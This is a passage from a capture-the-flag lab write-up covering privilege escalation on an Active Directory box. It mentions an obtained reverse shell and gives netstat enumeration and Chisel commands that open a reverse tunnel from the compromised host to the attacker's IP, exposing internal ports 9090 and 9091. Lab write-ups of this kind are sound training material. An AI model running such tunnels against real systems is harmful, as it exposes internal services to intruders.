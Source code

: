 I got a reverse shell and the first flag.

![Screenshot16](./Screenshots/16.png)

<br>
<br>
<br>

## Privilege Escalation

The Privilege Escalation took a bit of time for me and in some places it was a bit confusing.

First of all, I enumerated the system and searched for AD PrivEsc paths and misconfigurations.

However, the PrivEsc also continued with the Jabber theme...

<br>

### Lokal Ports

When I did network enumeration and looked for ports that only listen locally on the machine I found two interesting two ports `9090` and `9091`.

__Command:__ `netstat -ano | findstr 127`

![Screenshot17](./Screenshots/17.png)

I used `curl.exe` to test whether a web server was running here.

![Screenshot18](./Screenshots/18.png)

<br>

### Chisel - Port Forwarding

Now I use __Port Forwarding__ with __Chisel__ to access the service locally on my machine.

__On Attack Machine:__ `chisel server -p 9009 --reverse`

__On Box:__ `.\chisel.exe client 10.10.15.48:9009 R:9090:127.0.0.1:9090 R:9091:127.0.0.1:9091`
